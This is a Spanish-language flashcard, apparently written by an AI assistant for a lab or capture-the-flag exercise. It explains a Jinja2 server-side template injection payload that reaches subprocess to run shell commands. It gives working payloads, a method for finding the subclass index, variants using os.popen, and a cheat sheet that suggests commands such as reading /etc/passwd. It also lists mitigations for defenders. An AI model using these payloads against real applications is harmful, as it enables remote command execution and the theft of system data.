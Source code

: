 Título: **SSTI Jinja2 → ejecución de comandos (explicación desde 0, flashcard)**

Objetivo: entender exactamente qué hace este payload y por qué funciona:

```
http://10.201.44.37:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[356].__init__.__globals__['__builtins__']['__import__']('subprocess').check_output('whoami', shell=True).decode() }}
```

Prerequisitos mínimos

* Jinja2 permite evaluar **expresiones** `{{ ... }}` en plantillas. No permite sentencias `import` desde la plantilla.
* Python: todo es objeto. Los objetos exponen atributos mágicos: `__class__`, `__mro__`, `__subclasses__()`, `__init__.__globals__`, `__builtins__`, `__import__`.
* Entorno de laboratorio controlado (THM/HTB/VM).

Desglose paso a paso (cada fragmento y su propósito)

1. `''`

   * Una cadena vacía, literal accesible desde Jinja. Punto de partida: cualquier objeto.

2. `''.__class__`

   * Devuelve la clase del objeto: `<class 'str'>`.

3. `''.__class__.__mro__`

   * MRO = Method Resolution Order. Es una tupla con la jerarquía de herencia: `(str, object, ...)`.
   * Queremos `object`, normalmente en índice `1`.

4. `''.__class__.__mro__[1]`

   * Accedemos a `object` (raíz común).

5. `''.__class__.__mro__[1].__subclasses__()`

   * Lista de todas las clases que heredan de `object`. Esta lista contiene cientos de clases internas (incluye `subprocess.Popen`, `module`, etc.). **El orden y contenido dependen de la versión/entorno**.

6. `...[356]`

   * Selecciona la clase en la posición 356 de esa lista. En tu entorno concreto, índice **356 = `<class 'subprocess.Popen'>`**.
   * **IMPORTANTE**: el índice cambia por entorno; siempre confirmar listando.

7. `...__init__.__globals__`

   * Accede al diccionario de variables globales del método `__init__` de la clase seleccionada. Desde ahí podemos alcanzar `__builtins__` y funciones como `__import__`.

8. `['__builtins__']['__import__']('subprocess')`

   * Llama al import dinámico de Python desde los builtins para cargar el módulo `subprocess` en tiempo de ejecución.

9. `.check_output('whoami', shell=True)`

   * Usa `subprocess.check_output` para ejecutar el comando `whoami` en shell y recoger la salida como `bytes`.

10. `.decode()`

    * Decodifica `bytes` a `str` (salida legible).

Resumen corto del flujo lógico

1. Partir de un objeto permitido por Jinja (`''`).
2. Subir a `object` via `.__class__.__mro__`.
3. Enumerar `__subclasses__()` para exponer clases con punteros a ámbitos globales.
4. Localizar una clase con `__init__.__globals__` que permita acceder a `__import__`.
5. `__import__('subprocess')` → ejecutar comando con `check_output` → `.decode()`.

Cómo confirmar/identificar el índice (procedimiento rápido)

1. Envío 1: lista las clases y revisa el volcado:

   ```
   {{ ''.__class__.__mro__[1].__subclasses__() }}
   ```
2. Busca la entrada que diga `subprocess.Popen` o `subprocess.CompletedProcess`. Anota su posición (índice).
3. Si la respuesta es masiva, prueba rangos: `{{ ''.__class__.__mro__[1].__subclasses__()[0:60] }}`, etc.
4. Alternativa: en el servidor local/tu VM, replicá `len(object.__subclasses__())` y `object.__subclasses__().index(subprocess.Popen)` para saber el índice típico.

Errores comunes y diagnóstico rápido

* `IndexError` → índice fuera de rango. Re-listar y buscar.
* `AttributeError`/`TypeError` → el objeto en ese índice no expone `__init__.__globals__` o no es invocable como esperabas. Cambiar índice.
* Salida vacía o `None` → la aplicación puede truncar/suprimir salidas o el comando no devolvió stdout. Prueba `check_output` en lugar de `Popen`.
* Resultado en bytes no decodificado → falta `.decode()`.

Variantes útiles (más robustas)

* Evitar instanciar `Popen`: usar `check_output` directamente desde `__import__`:

  ```
  {{ ''.__class__.__mro__[1].__subclasses__()[IDX].__init__.__globals__['__builtins__']['__import__']('subprocess').check_output('whoami', shell=True).decode() }}
  ```
* Si no hay `subprocess` en globals, usar:

  ```
  __builtins__['__import__']('os').popen('whoami').read()
  ```

Buenas prácticas de laboratorio

* Confirmar SSTI simple: `{{7*7}}` → `49`.
* Empieza listando `__subclasses__()` y procurando índices bajos; evita barridos masivos que puedan tripear protecciones.
* Trabaja sobre copias/VMs y con autorización explícita.

Mitigaciones que debes reconocer (para defensores)

* No renderizar plantillas con contenido controlado por el usuario.
* Usar `SandboxedEnvironment` de Jinja2 o restringir `globals()` pasados a la plantilla.
* Ejecutar renderizado en contenedores/usuarios con mínimos privilegios.

Cheat-sheet rápido (pasos de explotación en laboratorio)

1. Verificar SSTI: `{{7*7}}`.
2. Listar subclasses: `{{ ''.__class__.__mro__[1].__subclasses__() }}`.
3. Localizar índice `IDX` con `subprocess.Popen` o `CompletedProcess`.
4. Ejecutar:

   ```
   {{ ''.__class__.__mro__[1].__subclasses__()[IDX].__init__.__globals__['__builtins__']['__import__']('subprocess').check_output('whoami', shell=True).decode() }}
   ```
5. Iterar con otros comandos (`id`, `ls`, `cat /etc/passwd`) según permisos y objetivo de laboratorio.

Recuerda: el punto crítico es **apuntar al índice correcto** en `__subclasses__()` y usar `__import__` desde `__init__.__globals__` o `__builtins__`. Si querés, te doy ahora un flashcard aún más condensado (2–3 puntos) para memorización. ¿Lo genero?


VER CASO DE ESTUDIO UBER 
https://hackerone.com/reports/125980